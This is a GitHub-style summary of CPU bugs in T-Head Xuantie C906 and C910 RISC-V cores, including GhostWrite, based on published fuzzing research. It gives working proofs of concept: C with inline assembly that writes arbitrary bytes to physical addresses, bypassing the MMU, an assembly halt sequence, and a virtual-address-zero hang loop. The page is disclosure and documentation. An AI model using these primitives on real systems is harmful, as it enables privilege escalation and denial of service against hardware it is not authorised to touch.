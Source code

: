 # Summary of Bugs in Xuantie C900-series core designs

### XTheadVector unit-strided stores with reserved width may bypass the MMU

Also known as [GhostWrite](https://ghostwriteattack.com/).

In both XTheadVector and V extension 1.0, unit-strided vector stores are
encoded as,

```
  31  29   28  27 26  25  24   20 19  15 14   12 11  7 6       0
 |  nf  | mew | mop | vm | sumop |  rs1 | width | vs3 | opcode  |
 |      |     | 00  |    |       |      |       |     | 0100111 |
 |      |     |     |    |       |      |       |     |         |
```

`mew` and `width` are combined together for specifying the unit length, but
instructions with `mew = 1` (length >= 128 bits) are reserved for now.

> The mew bit (inst[28]) when set is expected to be used to encode expanded
> memory sizes of 128 bits
and above, but these encodings are currently
> reserved.
> (The RISC-V Instruction Set Manual Volume I 20240411, 31.7.3)

C906 and C910 incorrectly decode instructions with `mew = 1`, and execute them.
On C906 a Store/AMO access fault will be raised, on C910 the instruction just
bypasses the MMU, and writes the least byte of `vs3` to address `rs1`.

On C910, the instruction is able to write both MMIO and memory addresses. The
value of fields `nf` doesn't make any differences on the length of written
bytes.

#### Proof of Concept

This PoC code makes use of the bug to write a string directly to the serial,
bypassing the kernel and MMU.

```C
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>

static void
ghostwrite(uintptr_t addr, uint8_t val)
{
        asm volatile ("\n\tth.vsetvli zero, zero, e8, m1"
                      "\n\tth.vmv.v.x v0, %0"
                      "\n\tmv t0, %1"
                      "\n\t.long 0x12028027"
                      : : "r" (val), "r"(addr) : "v0", "t0", "memory");
}

static void
ghostprint(uintptr_t p, const char *s)
{
        while (*s) {
                usleep(200);
                ghostwrite(p, *s);
                s++;
        }
}

int
main(int argc, const char *argv[])
{
        if (argc != 2) {
                printf("Usage: %s <UART_BASE>\n", argv[0]);
                return 0;
        }

        uintptr_t serialBase = strtoul(argv[1], NULL, 0);

        ghostprint(serialBase, "CRACKED BY GHOSTWRITE\n\r");

        return 0;
}
```

Must be compiled with `-march=rv64gc_xtheadvector`, e.g.

```shell
gcc ghostwrite-serial.c -o ghostwrite-serial -march=rv64gc_xtheadvector
```

and run with the UART base address, for example,

```shell
./ghostwrite-serial 0xffe7014000
```

on TH1520 SoC. `CRACKED BY GHOSTWRITE` should appear on the serial.

#### Affected Variants

- C906: tested with PoC on Sophgo CV1800B SoC
- C910: tested with PoC on T-Head TH1520 SoC

### Load instructions that modify the base register in XTheadMemIdx may halt C906

Also known as C906 halt sequence.

XTheadMemIdx provides extra integer memory operations. Among them there're 14
instructions load from memory address specified by the base register as well as
adjust the base register's value,

- th.lbib
- th.lbia
- th.lwuib
- th.lbuib
- th.lwia
- th.ldia
- th.lwib
- th.lbuia
- th.lhuia
- th.lhia
- th.ldib
- th.lhib
- th.lwuia
- th.lhuib

the last two character represents the order between load operation and register
adjustment,

- `a`: after increment, adjusting the base register -> loading from memory
- `b`: before increment, loading from memory -> adjusting the base register

These instructions are useful for array and stack accesses. Encodings with the
destination same as the base are reserved, but these reserved encodings may
crash C906 when it's followed by a CSR read targetting the same register, and
another access against the register.

Note that arbitrary instructions could be inserted between these three
operations, as long as they have nothing to do with the used register. Even the
subsequent sequence is incomplete for triggerring a crash, C906 still doesn't
report any exceptions for the reserved encoding.

#### PoC

```asm
        .global main
	main:
        mv              t0,     sp

        # th.lbib       t0,     (t0),   0,      0
        .word 0x0802c28b
        frcsr           t0
        addi            t0,     zero,   0

        ret
```

Could be compiled with GCC directly. Running it on C906 cores trigger a machine
crash.

```shell
gcc c906-halt-sequence.S -o c906-halt-sequence
```

#### Affected Variants

- C906: tested with PoC on Sophgo CV1800B SoC
- C910: isn't vulnerable to the issue. But it doesn't raise any exceptions for
        the reserved instructions, either.

## C910 may hang when accessing physically-backed virtual address zero

Reading from or writing to virtual address zero may make C910 hang if the
address is mapped to a physical address.

The issue doesn't happen on each run of the PoC, but 1000 runs are enough to
reproduce it stablily.

Since mapping a page to virtual address zero usually requires higher permission
or adjustment to the system settings (`vm.mmap_min_addr` on Linux), this isn't
a severe security problem.

#### PoC

```C
#include <errno.h>
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <sys/mman.h>

int
main(void)
{
        uint32_t *p = mmap((void *)0x0, 4096, PROT_READ | PROT_WRITE,
                          MAP_FIXED | MAP_PRIVATE | MAP_ANON, -1, 0);
        if (p == MAP_FAILED) {
                printf("failed to mmap a page at vaddr 0x0: %s\n",
                       strerror(errno));
                return -1;
        }

        puts("Reading from 0x00000000");
        printf("Got 0x%x\n", *p);

        puts("Reading again from 0x00000000");
        printf("Got 0x%x\n", *p);

        munmap(p, 4096);
        return 0;
}
```

Could be simply compiled with CC.

```
cc c910-read-from-vaddr-zero.c -o c910-read-from-vaddr-zero
```

Note that root permission is required to mmap an address below the value of
sysctl option `vm.mmap_min_addr`. To reproduce the bug,

```shell
# for i in $(seq 1 1000); do ./c910-read-from-vadddr-zero; done
```

#### Affected Variants

- C910: tested on T-Head TH1520

## Reference

This documentation is summarized from
[RISCVuzz: Discovering Architectural CPU Vulnerabilities via Differential Hardware Fuzzing](https://ghostwriteattack.com/riscvuzz.pdf),
thanks for the authors' work!

[T-Head Exception Specification](https://github.com/XUANTIE-RV/thead-extension-spec)
describes various extensions and corresponding instructions' format and behavior.
